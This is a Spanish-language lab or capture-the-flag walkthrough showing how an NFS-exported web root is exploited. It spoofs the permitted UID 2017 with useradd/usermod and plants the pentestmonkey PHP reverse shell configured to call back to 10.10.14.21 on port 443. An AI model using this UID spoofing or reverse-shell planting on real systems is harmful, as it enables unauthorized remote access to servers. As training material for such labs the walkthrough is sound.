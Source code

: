 ```

Directorio /var/www/html:

```
| Volume /var/www/html
|   access: Read NoLookup NoModify NoExtend NoDelete NoExecute
| PERMISSION  UID   GID  SIZE  TIME                 FILENAME
| rwxr-xr--   2017  33   4096  2023-04-06T00:40:01  .
| ??????????  ?     ?    ?     ?                    ..
| ??????????  ?     ?    ?     ?                    .htaccess
| ??????????  ?     ?    ?     ?                    css
| ??????????  ?     ?    ?     ?                    images
| ??????????  ?     ?    ?     ?                    index.html
| ??????????  ?     ?    ?     ?                    js
```
Es lo mismo de arriba, solo que el UID es 2017

Como extra, dentro dentro de la carpeta ```Documents``` de ```ross```, hay un archivo de un gestor de contraseñas que podriamos intentar crackear, pero les digo que no es por ahi

```
󰣇  c4rta /mnt/ross  tree      
.
├── Desktop
├── Documents
│   └── Passwords.kdbx ---> archivo de contraseñas
```

## Explotando NFS y flag de user

### Directorio /var/www/html

Como sabermos que solo vamos a tener acceso con un usuario con el UID 2017, podemos crear un usuario en muestra maquina y asignarle ese UID:

```
sudo useradd web
sudo usermod -u 2017 web
sudo groupmod -g 2017 web
```

Ahora inicamos sesion con ese usuario y ya podemos navegar entre ese directorio

Una vez dentro, tenemos archivos de un sitio web, ese sitio web corresponde al sitio web de la maquina, y asu vez, ese directorio que montamos esta sincronizado con el de la maquina, asi que lo que intentaremos es crear un archivo php que sea una reverse shell y luego acceder a ese recurso.

Usare la reverse shell de pentest monkey.

En el directorio /var/www/html creare un archivo llamado ```shell.php```, donde pegare la reverse shell y editare la IP Y puerto, de esta manera:

```
$ip = '10.10.14.21';  // CHANGE THIS
$port = 443; 
```

```
